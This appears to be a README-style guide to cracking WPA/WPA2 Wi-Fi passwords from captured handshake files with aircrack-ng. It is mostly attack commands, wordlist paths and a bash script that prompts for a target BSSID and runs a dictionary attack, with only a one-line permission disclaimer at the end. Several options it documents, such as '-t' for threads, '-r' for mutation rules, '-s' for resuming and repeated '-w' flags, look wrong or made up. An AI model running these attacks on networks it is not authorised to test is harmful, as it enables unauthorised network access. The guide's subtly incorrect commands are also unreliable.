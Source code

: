 # WiFi Handshake Cracking with Aircrack-ng

*Complete guide to extract BSSID and crack WPA/WPA2 passwords from PCAP files*

## Quick Start
```bash
# One command to see networks and crack
aircrack-ng -w rockyou.txt handshake.pcap

# Or if you know the BSSID
aircrack-ng -w rockyou.txt -b AA:BB:CC:DD:EE:FF handshake.pcap
```

## Complete Workflow

### Step 1: Analyze PCAP and Extract BSSID
```bash
# View all networks in capture file
aircrack-ng handshake.pcap

# Expected output:
# ID  BSSID              ESSID         Encryption    Handshake
# 1   AA:BB:CC:DD:EE:FF  MyHomeWiFi    WPA (1 handshake)
# 2   11:22:33:44:55:66  CoffeeShop    WPA (0 handshake)
```

### Step 2: Verify Handshake Presence
```bash
# Check for valid handshakes
aircrack-ng handshake.pcap | grep -i "handshake"

# Look for WPA handshake indicator in output
# [WPA handshake] indicates successful capture
```

### Step 3: Crack the Password
```bash
# Basic dictionary attack
aircrack-ng -w wordlist.txt -b AA:BB:CC:DD:EE:FF handshake.pcap

# Using common wordlists
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF handshake.pcap
```

## Essential Commands

### Network Discovery
```bash
# List all networks in PCAP
aircrack-ng handshake.pcap

# Extract just BSSIDs
aircrack-ng handshake.pcap | grep -E "^[[:space:]]*[0-9]+" | awk '{print $2}'
```

### Cracking Methods
```bash
# Standard attack
aircrack-ng -w wordlist.txt -b <BSSID> handshake.pcap

# Multi-threaded (faster)
aircrack-ng -w wordlist.txt -b <BSSID> -t 8 handshake.pcap

# Use all CPU cores
aircrack-ng -w wordlist.txt -b <BSSID> --cpu-detected handshake.pcap

# Quiet mode (minimal output)
aircrack-ng -w wordlist.txt -b <BSSID> -q handshake.pcap
```

### Wordlist Management
```bash
# Multiple wordlists
aircrack-ng -w dict1.txt -w dict2.txt -b <BSSID> handshake.pcap

# With word mutation rules
aircrack-ng -w wordlist.txt -b <BSSID> -r rules/wpa.txt handshake.pcap

# Resume from specific point
aircrack-ng -w wordlist.txt -b <BSSID> -s 1000 handshake.pcap
```

## Practical Examples

### Example 1: Unknown Network
```bash
# Discover networks first
aircrack-ng capture.pcap

# Then crack specific BSSID
aircrack-ng -w passwords.txt -b AA:BB:CC:DD:EE:FF capture.pcap
```

### Example 2: Known BSSID
```bash
# Direct attack when you know the target
aircrack-ng -w rockyou.txt -b 11:22:33:44:55:66 handshake.pcap
```

### Example 3: Optimized Cracking
```bash
# Fast attack with multiple threads
aircrack-ng -w big_wordlist.txt -b <BSSID> -t 12 --cpu-detected handshake.pcap
```

## Complete Automation Script

```bash
#!/bin/bash
# wifi_crack_auto.sh

if [ -z "$1" ]; then
    echo "Usage: $0 <pcap_file> [wordlist]"
    echo "Default wordlist: /usr/share/wordlists/rockyou.txt"
    exit 1
fi

PCAP_FILE="$1"
WORDLIST="${2:-/usr/share/wordlists/rockyou.txt}"

echo "=== WiFi Handshake Cracker ==="
echo "PCAP: $PCAP_FILE"
echo "Wordlist: $WORDLIST"
echo ""

# Show available networks
echo "Scanning for networks..."
aircrack-ng "$PCAP_FILE" | head -15

# Get BSSID from user
echo ""
read -p "Enter target BSSID: " BSSID

# Validate BSSID format
if [[ ! $BSSID =~ ^([0-9A-Fa-f]{2}[:-]){5}([0-9A-Fa-f]{2})$ ]]; then
    echo "Error: Invalid BSSID format"
    exit 1
fi

# Start cracking
echo ""
echo "Starting crack attack on $BSSID..."
echo "Press Ctrl+C to stop"
echo ""

aircrack-ng -w "$WORDLIST" -b "$BSSID" "$PCAP_FILE"
```

## Success Indicators

When successful, you'll see:
```
KEY FOUND! [ password123 ]

Master Key     : XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX
Transient Key  : XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX
EAPOL HMAC     : XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX
```

## Common Wordlists

```bash
# Default locations
/usr/share/wordlists/rockyou.txt
/usr/share/wordlists/nmap.lst
/usr/share/john/password.lst
/usr/share/wordlists/metasploit/password.lst

# Create custom wordlist
crunch 8 12 1234567890 -o custom.txt  # Generate numeric passwords
```

## Troubleshooting

### No Handshake Found
```
# If no handshake in PCAP:
[0 handshake] - Capture more traffic or re-capture
```

### Invalid PCAP
```
# Ensure file is valid WiFi capture
aircrack-ng invalid.pcap  # Will show error if not WiFi
```

### Performance Issues
```bash
# Use smaller wordlist first
aircrack-ng -w common_passwords.txt -b <BSSID> handshake.pcap

# Then try larger lists
aircrack-ng -w big_wordlist.txt -b <BSSID> handshake.pcap
```

## Quick Reference

| Command | Purpose |
|---------|---------|
| `aircrack-ng file.pcap` | Show networks and handshakes |
| `aircrack-ng -w list.txt -b BSSID file.pcap` | Crack specific network |
| `aircrack-ng -w list.txt -b BSSID -t 8 file.pcap` | 8 threads for speed |
| `aircrack-ng -w list.txt -b BSSID -q file.pcap` | Quiet mode |

## Pro Tips

1. **Start Small**: Try common wordlists first before large ones
2. **Use Rules**: Apply word mutation rules for better coverage
3. **Check Handshake**: Ensure `[WPA handshake]` appears in analysis
4. **Multiple Wordlists**: Combine specialized wordlists
5. **Save Results**: Use `-l key.txt` to save found keys to file

---

**Remember**: Only use on networks you own or have explicit permission to test!